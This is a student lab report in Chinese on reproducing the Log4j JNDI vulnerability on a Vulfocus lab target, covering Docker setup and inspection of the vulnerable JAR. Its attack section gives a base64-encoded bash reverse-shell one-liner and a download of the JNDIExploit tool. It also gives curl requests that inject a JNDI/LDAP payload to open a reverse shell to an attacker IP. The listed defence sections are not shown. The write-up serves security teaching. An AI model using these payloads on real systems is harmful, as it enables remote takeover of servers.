# 网络空间安全实验报告

<!-- TOC -->

- [网络空间安全实验报告](#%E7%BD%91%E7%BB%9C%E7%A9%BA%E9%97%B4%E5%AE%89%E5%85%A8%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A)
    - [PART1 log4j 部分实践达成指标](#part1-log4j-%E9%83%A8%E5%88%86%E5%AE%9E%E8%B7%B5%E8%BE%BE%E6%88%90%E6%8C%87%E6%A0%87)
    - [PART2 实验环境](#part2-%E5%AE%9E%E9%AA%8C%E7%8E%AF%E5%A2%83)
    - [PART3 实验内容](#part3-%E5%AE%9E%E9%AA%8C%E5%86%85%E5%AE%B9)
        - [一. 环境搭建](#%E4%B8%80-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)
            - [克隆仓库](#%E5%85%8B%E9%9A%86%E4%BB%93%E5%BA%93)
            - [添加 Docker APT 源并安装 Docker](#%E6%B7%BB%E5%8A%A0-docker-apt-%E6%BA%90%E5%B9%B6%E5%AE%89%E8%A3%85-docker)
            - [Docker 配置](#docker-%E9%85%8D%E7%BD%AE)
            - [VulFocus 环境搭建与运行](#vulfocus-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E4%B8%8E%E8%BF%90%E8%A1%8C)
            - [进入容器并操作文件](#%E8%BF%9B%E5%85%A5%E5%AE%B9%E5%99%A8%E5%B9%B6%E6%93%8D%E4%BD%9C%E6%96%87%E4%BB%B6)
            - [定位漏洞代码](#%E5%AE%9A%E4%BD%8D%E6%BC%8F%E6%B4%9E%E4%BB%A3%E7%A0%81)
        - [二. 漏洞存在性验证与利用](#%E4%BA%8C-%E6%BC%8F%E6%B4%9E%E5%AD%98%E5%9C%A8%E6%80%A7%E9%AA%8C%E8%AF%81%E4%B8%8E%E5%88%A9%E7%94%A8)
            - [[1] 漏洞存在检测](#1-%E6%BC%8F%E6%B4%9E%E5%AD%98%E5%9C%A8%E6%A3%80%E6%B5%8B)
            - [[2] 自动化exploit脚本编写](#2-%E8%87%AA%E5%8A%A8%E5%8C%96exploit%E8%84%9A%E6%9C%AC%E7%BC%96%E5%86%99)
            - [[3] 评估log4j漏洞效果](#3-%E8%AF%84%E4%BC%B0log4j%E6%BC%8F%E6%B4%9E%E6%95%88%E6%9E%9C)
            - [[4] 构造攻击请求](#4-%E6%9E%84%E9%80%A0%E6%94%BB%E5%87%BB%E8%AF%B7%E6%B1%82)
        - [三. 漏洞利用检测](#%E4%B8%89-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%A3%80%E6%B5%8B)
            - [[方法一] 使用域名服务器](#%E6%96%B9%E6%B3%95%E4%B8%80-%E4%BD%BF%E7%94%A8%E5%9F%9F%E5%90%8D%E6%9C%8D%E5%8A%A1%E5%99%A8)
            - [[方法二] 使用抓包工具](#%E6%96%B9%E6%B3%95%E4%BA%8C-%E4%BD%BF%E7%94%A8%E6%8A%93%E5%8C%85%E5%B7%A5%E5%85%B7)
            - [[方法三] 使用interact.sh自动化检测](#%E6%96%B9%E6%B3%95%E4%B8%89-%E4%BD%BF%E7%94%A8interactsh%E8%87%AA%E5%8A%A8%E5%8C%96%E6%A3%80%E6%B5%8B)
            - [[方法四] 使用 Suricata 自动化检测](#%E6%96%B9%E6%B3%95%E5%9B%9B-%E4%BD%BF%E7%94%A8-suricata-%E8%87%AA%E5%8A%A8%E5%8C%96%E6%A3%80%E6%B5%8B)
        - [四. 漏洞防御的思考](#%E5%9B%9B-%E6%BC%8F%E6%B4%9E%E9%98%B2%E5%BE%A1%E7%9A%84%E6%80%9D%E8%80%83)
            - [📌 Log4j JNDI 攻击原理](#-log4j-jndi-%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86)
            - [🛡️ Log4j JNDI 攻击的五种防御措施](#-log4j-jndi-%E6%94%BB%E5%87%BB%E7%9A%84%E4%BA%94%E7%A7%8D%E9%98%B2%E5%BE%A1%E6%8E%AA%E6%96%BD)
                - [️⃣ 使用 Web 应用防火墙（WAF）拦截](#%EF%B8%8F%E2%83%A3-%E4%BD%BF%E7%94%A8-web-%E5%BA%94%E7%94%A8%E9%98%B2%E7%81%AB%E5%A2%99waf%E6%8B%A6%E6%88%AA)
                - [️⃣ 禁用 JNDI 查找](#%EF%B8%8F%E2%83%A3-%E7%A6%81%E7%94%A8-jndi-%E6%9F%A5%E6%89%BE)
                - [️⃣ 立即修复 Log4j](#%EF%B8%8F%E2%83%A3-%E7%AB%8B%E5%8D%B3%E4%BF%AE%E5%A4%8D-log4j)
                - [️⃣ 禁用远程代码库](#%EF%B8%8F%E2%83%A3-%E7%A6%81%E7%94%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%BA%93)
                - [️⃣ 禁用 Java 反序列化](#%EF%B8%8F%E2%83%A3-%E7%A6%81%E7%94%A8-java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)
            - [📌 结论](#-%E7%BB%93%E8%AE%BA)
        - [五. 漏洞缓解](#%E4%BA%94-%E6%BC%8F%E6%B4%9E%E7%BC%93%E8%A7%A3)
            - [第一种方法: 打造Web应用防火墙（WAF）来缓解Log4j漏洞](#%E7%AC%AC%E4%B8%80%E7%A7%8D%E6%96%B9%E6%B3%95-%E6%89%93%E9%80%A0web%E5%BA%94%E7%94%A8%E9%98%B2%E7%81%AB%E5%A2%99waf%E6%9D%A5%E7%BC%93%E8%A7%A3log4j%E6%BC%8F%E6%B4%9E)
                - [[1] 实验目标](#1-%E5%AE%9E%E9%AA%8C%E7%9B%AE%E6%A0%87)
                - [[2] 实验具体流程](#2-%E5%AE%9E%E9%AA%8C%E5%85%B7%E4%BD%93%E6%B5%81%E7%A8%8B)
                - [[3] 使用OWASP核心规则集（CRS）](#3-%E4%BD%BF%E7%94%A8owasp%E6%A0%B8%E5%BF%83%E8%A7%84%E5%88%99%E9%9B%86crs)
                - [[4] 自定义Log4j漏洞规则配置](#4-%E8%87%AA%E5%AE%9A%E4%B9%89log4j%E6%BC%8F%E6%B4%9E%E8%A7%84%E5%88%99%E9%85%8D%E7%BD%AE)
                - [[5] 监控和日志分析](#5-%E7%9B%91%E6%8E%A7%E5%92%8C%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90)
                - [[6] 配置 Apache 监听 81 端口](#6-%E9%85%8D%E7%BD%AE-apache-%E7%9B%91%E5%90%AC-81-%E7%AB%AF%E5%8F%A3)
                - [[7] 配置反向代理](#7-%E9%85%8D%E7%BD%AE%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)
                - [[8] 测试 WAF 是否拦截恶意请求](#8-%E6%B5%8B%E8%AF%95-waf-%E6%98%AF%E5%90%A6%E6%8B%A6%E6%88%AA%E6%81%B6%E6%84%8F%E8%AF%B7%E6%B1%82)
                - [[9] 现在的情况以及存在的问题](#9-%E7%8E%B0%E5%9C%A8%E7%9A%84%E6%83%85%E5%86%B5%E4%BB%A5%E5%8F%8A%E5%AD%98%E5%9C%A8%E7%9A%84%E9%97%AE%E9%A2%98)
                - [[10] 改进](#10-%E6%94%B9%E8%BF%9B)
                - [[11] 总结一下当前进度](#11-%E6%80%BB%E7%BB%93%E4%B8%80%E4%B8%8B%E5%BD%93%E5%89%8D%E8%BF%9B%E5%BA%A6)
                - [[12] 出现新问题](#12-%E5%87%BA%E7%8E%B0%E6%96%B0%E9%97%AE%E9%A2%98)
                - [[13] 测试 WAF 拦截](#13-%E6%B5%8B%E8%AF%95-waf-%E6%8B%A6%E6%88%AA)
                - [[14] 最终总结](#14-%E6%9C%80%E7%BB%88%E6%80%BB%E7%BB%93)
                - [[15] 恢复默认配置,便于进行后续实验](#15-%E6%81%A2%E5%A4%8D%E9%BB%98%E8%AE%A4%E9%85%8D%E7%BD%AE%E4%BE%BF%E4%BA%8E%E8%BF%9B%E8%A1%8C%E5%90%8E%E7%BB%AD%E5%AE%9E%E9%AA%8C)
                - [[16] 第一种方法总结](#16-%E7%AC%AC%E4%B8%80%E7%A7%8D%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93)
            - [第二种方法: 禁用 lookup 服务](#%E7%AC%AC%E4%BA%8C%E7%A7%8D%E6%96%B9%E6%B3%95-%E7%A6%81%E7%94%A8-lookup-%E6%9C%8D%E5%8A%A1)
                - [构建 Docker 镜像](#%E6%9E%84%E5%BB%BA-docker-%E9%95%9C%E5%83%8F)
                - [运行 Docker 容器](#%E8%BF%90%E8%A1%8C-docker-%E5%AE%B9%E5%99%A8)
                - [验证容器运行状态](#%E9%AA%8C%E8%AF%81%E5%AE%B9%E5%99%A8%E8%BF%90%E8%A1%8C%E7%8A%B6%E6%80%81)
                - [访问应用](#%E8%AE%BF%E9%97%AE%E5%BA%94%E7%94%A8)
                - [测试 Log4j 漏洞防护效果](#%E6%B5%8B%E8%AF%95-log4j-%E6%BC%8F%E6%B4%9E%E9%98%B2%E6%8A%A4%E6%95%88%E6%9E%9C)
            - [第三种方法: 通过JVM参数禁用JNDI查找](#%E7%AC%AC%E4%B8%89%E7%A7%8D%E6%96%B9%E6%B3%95-%E9%80%9A%E8%BF%87jvm%E5%8F%82%E6%95%B0%E7%A6%81%E7%94%A8jndi%E6%9F%A5%E6%89%BE)
                - [分析当前环境](#%E5%88%86%E6%9E%90%E5%BD%93%E5%89%8D%E7%8E%AF%E5%A2%83)
                - [临时缓解措施 - 通过JVM参数禁用JNDI查找](#%E4%B8%B4%E6%97%B6%E7%BC%93%E8%A7%A3%E6%8E%AA%E6%96%BD---%E9%80%9A%E8%BF%87jvm%E5%8F%82%E6%95%B0%E7%A6%81%E7%94%A8jndi%E6%9F%A5%E6%89%BE)
        - [六. 漏洞修复](#%E5%85%AD-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)
            - [第一次尝试（失败）](#%E7%AC%AC%E4%B8%80%E6%AC%A1%E5%B0%9D%E8%AF%95%E5%A4%B1%E8%B4%A5)
                - [进入容器执行修复操作](#%E8%BF%9B%E5%85%A5%E5%AE%B9%E5%99%A8%E6%89%A7%E8%A1%8C%E4%BF%AE%E5%A4%8D%E6%93%8D%E4%BD%9C)
                - [创建工作目录并准备环境](#%E5%88%9B%E5%BB%BA%E5%B7%A5%E4%BD%9C%E7%9B%AE%E5%BD%95%E5%B9%B6%E5%87%86%E5%A4%87%E7%8E%AF%E5%A2%83)
                - [修改 log4j-core 库以移除 JndiLookup 类](#%E4%BF%AE%E6%94%B9-log4j-core-%E5%BA%93%E4%BB%A5%E7%A7%BB%E9%99%A4-jndilookup-%E7%B1%BB)
                - [重新打包修复后的应用 JAR](#%E9%87%8D%E6%96%B0%E6%89%93%E5%8C%85%E4%BF%AE%E5%A4%8D%E5%90%8E%E7%9A%84%E5%BA%94%E7%94%A8-jar)
                - [退出容器并重启应用使修复生效](#%E9%80%80%E5%87%BA%E5%AE%B9%E5%99%A8%E5%B9%B6%E9%87%8D%E5%90%AF%E5%BA%94%E7%94%A8%E4%BD%BF%E4%BF%AE%E5%A4%8D%E7%94%9F%E6%95%88)
            - [错误分析](#%E9%94%99%E8%AF%AF%E5%88%86%E6%9E%90)
                    - [从日志中可以看出，应用最初成功启动了（Spring Boot banner和初始化消息正常），但在重启时出现了严重错误：](#%E4%BB%8E%E6%97%A5%E5%BF%97%E4%B8%AD%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%87%BA%E5%BA%94%E7%94%A8%E6%9C%80%E5%88%9D%E6%88%90%E5%8A%9F%E5%90%AF%E5%8A%A8%E4%BA%86spring-boot-banner%E5%92%8C%E5%88%9D%E5%A7%8B%E5%8C%96%E6%B6%88%E6%81%AF%E6%AD%A3%E5%B8%B8%E4%BD%86%E5%9C%A8%E9%87%8D%E5%90%AF%E6%97%B6%E5%87%BA%E7%8E%B0%E4%BA%86%E4%B8%A5%E9%87%8D%E9%94%99%E8%AF%AF)
                    - [根本原因](#%E6%A0%B9%E6%9C%AC%E5%8E%9F%E5%9B%A0)
                    - [重要的命令分析](#%E9%87%8D%E8%A6%81%E7%9A%84%E5%91%BD%E4%BB%A4%E5%88%86%E6%9E%90)
                    - [解决方案](#%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88)
            - [第二次尝试（失败）](#%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%B0%9D%E8%AF%95%E5%A4%B1%E8%B4%A5)
                - [修复 Log4j 漏洞 - 正确重新打包 JAR 文件](#%E4%BF%AE%E5%A4%8D-log4j-%E6%BC%8F%E6%B4%9E---%E6%AD%A3%E7%A1%AE%E9%87%8D%E6%96%B0%E6%89%93%E5%8C%85-jar-%E6%96%87%E4%BB%B6)
                - [进入容器并准备环境](#%E8%BF%9B%E5%85%A5%E5%AE%B9%E5%99%A8%E5%B9%B6%E5%87%86%E5%A4%87%E7%8E%AF%E5%A2%83)
                - [创建工作目录](#%E5%88%9B%E5%BB%BA%E5%B7%A5%E4%BD%9C%E7%9B%AE%E5%BD%95)
                - [定位并修复 log4j-core 库](#%E5%AE%9A%E4%BD%8D%E5%B9%B6%E4%BF%AE%E5%A4%8D-log4j-core-%E5%BA%93)
                - [使用适当方法修改 Spring Boot JAR](#%E4%BD%BF%E7%94%A8%E9%80%82%E5%BD%93%E6%96%B9%E6%B3%95%E4%BF%AE%E6%94%B9-spring-boot-jar)
                - [退出容器并重启应用](#%E9%80%80%E5%87%BA%E5%AE%B9%E5%99%A8%E5%B9%B6%E9%87%8D%E5%90%AF%E5%BA%94%E7%94%A8)
            - [第三次尝试（成功）](#%E7%AC%AC%E4%B8%89%E6%AC%A1%E5%B0%9D%E8%AF%95%E6%88%90%E5%8A%9F)
            - [验证Log4j漏洞修复](#%E9%AA%8C%E8%AF%81log4j%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)
                - [设置验证环境](#%E8%AE%BE%E7%BD%AE%E9%AA%8C%E8%AF%81%E7%8E%AF%E5%A2%83)
                - [测试漏洞](#%E6%B5%8B%E8%AF%95%E6%BC%8F%E6%B4%9E)
                - [如何验证：](#%E5%A6%82%E4%BD%95%E9%AA%8C%E8%AF%81)
                - [额外验证：](#%E9%A2%9D%E5%A4%96%E9%AA%8C%E8%AF%81)
                - [Log4j 漏洞修复验证分析](#log4j-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E9%AA%8C%E8%AF%81%E5%88%86%E6%9E%90)
                    - [日志分析结果](#%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90%E7%BB%93%E6%9E%9C)
                    - [关键发现](#%E5%85%B3%E9%94%AE%E5%8F%91%E7%8E%B0)
                    - [综合结论](#%E7%BB%BC%E5%90%88%E7%BB%93%E8%AE%BA)
    - [PART4 遇到的问题](#part4-%E9%81%87%E5%88%B0%E7%9A%84%E9%97%AE%E9%A2%98)
        - [问题一 : 环境搭建问题](#%E9%97%AE%E9%A2%98%E4%B8%80--%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E9%97%AE%E9%A2%98)
            - [ARM64系统运行x86_64架构容器问题](#arm64%E7%B3%BB%E7%BB%9F%E8%BF%90%E8%A1%8Cx86_64%E6%9E%B6%E6%9E%84%E5%AE%B9%E5%99%A8%E9%97%AE%E9%A2%98)
        - [问题二 : 漏洞缓解阶段问题](#%E9%97%AE%E9%A2%98%E4%BA%8C--%E6%BC%8F%E6%B4%9E%E7%BC%93%E8%A7%A3%E9%98%B6%E6%AE%B5%E9%97%AE%E9%A2%98)
            - [JVM安全参数未正确应用](#jvm%E5%AE%89%E5%85%A8%E5%8F%82%E6%95%B0%E6%9C%AA%E6%AD%A3%E7%A1%AE%E5%BA%94%E7%94%A8)
        - [问题三 : 漏洞修复阶段问题](#%E9%97%AE%E9%A2%98%E4%B8%89--%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E9%98%B6%E6%AE%B5%E9%97%AE%E9%A2%98)
            - [第一次尝试修复失败](#%E7%AC%AC%E4%B8%80%E6%AC%A1%E5%B0%9D%E8%AF%95%E4%BF%AE%E5%A4%8D%E5%A4%B1%E8%B4%A5)
            - [第二次尝试修复失败](#%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%B0%9D%E8%AF%95%E4%BF%AE%E5%A4%8D%E5%A4%B1%E8%B4%A5)
            - [第三次尝试成功](#%E7%AC%AC%E4%B8%89%E6%AC%A1%E5%B0%9D%E8%AF%95%E6%88%90%E5%8A%9F)
            - [总结一下](#%E6%80%BB%E7%BB%93%E4%B8%80%E4%B8%8B)
        - [问题四](#%E9%97%AE%E9%A2%98%E5%9B%9B)
            - [问题描述](#%E9%97%AE%E9%A2%98%E6%8F%8F%E8%BF%B0)
            - [解决方法](#%E8%A7%A3%E5%86%B3%E6%96%B9%E6%B3%95)
                - [方法 1：使用单引号包裹参数](#%E6%96%B9%E6%B3%95-1%E4%BD%BF%E7%94%A8%E5%8D%95%E5%BC%95%E5%8F%B7%E5%8C%85%E8%A3%B9%E5%8F%82%E6%95%B0)
                - [方法 2：使用双引号并转义 $](#%E6%96%B9%E6%B3%95-2%E4%BD%BF%E7%94%A8%E5%8F%8C%E5%BC%95%E5%8F%B7%E5%B9%B6%E8%BD%AC%E4%B9%89-)
                - [方法 3：切换到 bash shell](#%E6%96%B9%E6%B3%95-3%E5%88%87%E6%8D%A2%E5%88%B0-bash-shell)

<!-- /TOC -->

---

## PART1 log4j 部分实践达成指标
- [x] vulfocus 环境搭建
- [x] log4j 漏洞复现环境搭建
- [x] log4j 漏洞利用复现
- [x] log4j 漏洞靶机上的缺陷代码已完成逆向分析，定位到了漏洞代码片段
- [x] log4j 漏洞缓解完成，并验证了缓解效果，但依然有绕过方法可以完成漏洞利用
- [x] log4j 漏洞修复完成，并验证了修复效果

---

## PART2 实验环境
* **系统环境** ：Kali Linux on ARM64(aarch64)
* **Docker版本** ：Docker
* **目标容器** ：vulfocus/vulfocus:latest (x86_64架构)
* **虚拟机**：Parallels Desktop20.0


---

## PART3 实验内容

### 一. 环境搭建
#### 1. 克隆仓库
```bash
git clone https://github.com/c4pr1c3/ctf-games.git
```


#### 2. 添加 Docker APT 源并安装 Docker

```bash
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | sudo tee /etc/apt/sources.list.d/docker.list
```

- 将 Docker 的 APT 源添加到系统的软件源列表中。
- deb 行指定了源的架构（arch=amd64）、签名文件的位置（signed-by=/etc/apt/keyrings/docker.gpg）以及源的 URL 和发行版名称（bookworm stable）。

```bash
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg
sudo apt update && sudo apt install docker-ce docker-ce-cli containerd.io jq
```

- 使用 curl 从 Docker 官方下载 GPG 公钥，并通过 gpg --dearmor 将其转换为适合 APT 使用的格式，最后保存为 /etc/apt/keyrings/docker.gpg。


#### 3. Docker 配置
1. **添加用户到 Docker 组 , 切换到 root 用户并进行操作:**
   ```bash
   sudo usermod -a -G docker kali
   sudo su -
   ```
   

2. **编辑 /etc/docker/daemon.json 文件，添加镜像加速器地址：**
   

#### 4. VulFocus 环境搭建与运行

1. **拉取 vulfocus/vulfocus:latest 镜像，并启动容器：**
   

2. **首先尝试使用 docker-compose 来管理容器**


3. **安装完成后，系统自动升级了一些依赖包，并移除了一些不再需要的包。**

4. **接下来，进入 /workspace/ctf-games/fofapro/vulfocus 目录，启动了 VulFocus 环境：**
   ```bash
   bash start.sh
   ```
   
   - 脚本会检查本地 IP 地址并设置环境变量，然后创建并启动 vulfocus_vulfocus_1 容器。通过 docker ps 查看容器状态，确认容器已成功启动并运行正常。

   **结果验证：**
   执行 `docker ps`命令可以看到容器成功运行并保持健康状态：

   ```
   CONTAINER ID   IMAGE                      COMMAND                  CREATED          STATUS                    PORTS                               NAMES
   f1dbefb28904   vulfocus/vulfocus:latest   "sh /vulfocus-api/ru…"   10 seconds ago   Up 10 seconds (healthy)   0.0.0.0:80->80/tcp, :::80->80/tcp   vulfocus_vul-focus_1

   ```

   打开登录页面 , 输入账号``admin``，密码``admin``
   

   如下图路径，下载

   

   修改镜像过期时间

   

   下载好后可在首页看到

   

   点击启动

   

   访问地址 `10.37.133.3:56174`

   


#### 5. 进入容器并操作文件
```bash
docker exec -it kind_engelbart bash
```


在容器内部，复制 demo.jar 到宿主机上。由于容器内没有安装 docker 命令，因此直接在容器内执行 docker cp 是不可行的。最终，我通过宿主机上的命令成功将文件复制出来：
```bash
docker cp kind_engelbart:/demo/demo.jar /home/kali/workspace/ctf-games/fofapro/vulfocus/
```


#### 6. 定位漏洞代码


---

### 二. 漏洞存在性验证与利用

#### [1] 漏洞存在检测

1. **确认容器状态**
   ```
   docker ps                         
   ```
   
   确认log4j2-rce容器正在运行，端口映射为56334。

2. **从容器中提取JAR文件**
   ```
   # 进入容器
   docker exec -it recursing_proskuriakova bash

   # 复制JAR文件到本地
   docker cp recursing_proskuriakova:/demo/demo.jar ./
   ```
   
   

3. **环境准备**

   ```
   # 安装Java开发工具包
   sudo apt update
   sudo apt install default-jdk

   # 验证jar工具可用性
   jar --version
   ```

   

4. **JAR文件分析**

   ```
   # 创建临时目录
   mkdir temp && cd temp

   # 解压 JAR 文件
   jar xf ../demo.jar

   # 查看 pom.xml 或 MANIFEST.MF 文件中的依赖信息
   cat META-INF/MANIFEST.MF

   # 查找 log4j 相关类文件
   find . -name "*.class" | grep -i log4j
   ```

   

   检查MANIFEST.MF文件，确认关键信息：

   Implementation-Title: log4j2_rce
   Spring-Boot-Version: 2.1.3.RELEASE
   Start-Class: com.example.log4j2_rce.Log4j2RceApplication

   找到关键类文件： ./BOOT-INF/classes/com/example/log4j2_rce/Log4j2RceApplication.class

   初步结论，通过分析发现：

   应用使用log4j2框架
   包含log4j2_rce相关类
   为Spring Boot应用，版本2.1.3.RELEASE
   存在可疑的RCE（远程代码执行）相关类


#### [2] 自动化exploit脚本编写


```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}
```

#### [3] 评估log4j漏洞效果

**下载利用工具 :**
```bash
wget https://github.com/Mr-xn/JNDIExploit/release/download/v1.2/JNDIExploit.v1.2.zip
```


#### [4] 构造攻击请求

1. **原始 PPT 中的命令：**
```bash
curl http://192.168.20.6:35536/hello -d 'payload=${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```

2. **修改后的命令（用于避免 Shell 解析问题）：**
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 | tr -d '\n' | sed 's/+/%2B/g' | sed 's/=/%3D/g')}" http://192.168.20.6:35536/hello
```


3. **Payload 说明：**
- 使用 `${jndi:ldap://...}` 构造恶意 JNDI 字符串。
- 将反向 shell 命令 `bash -i >& /dev/tcp/192.168.168.3/7777 0>&1` 转换为 Base64 编码，以适配 URL 参数格式。
- 目标服务器执行该 payload 后，会尝试连接攻击者的 IP 地址 `192.168.168.3` 和端口 `7777`。

4. **实验结果：**
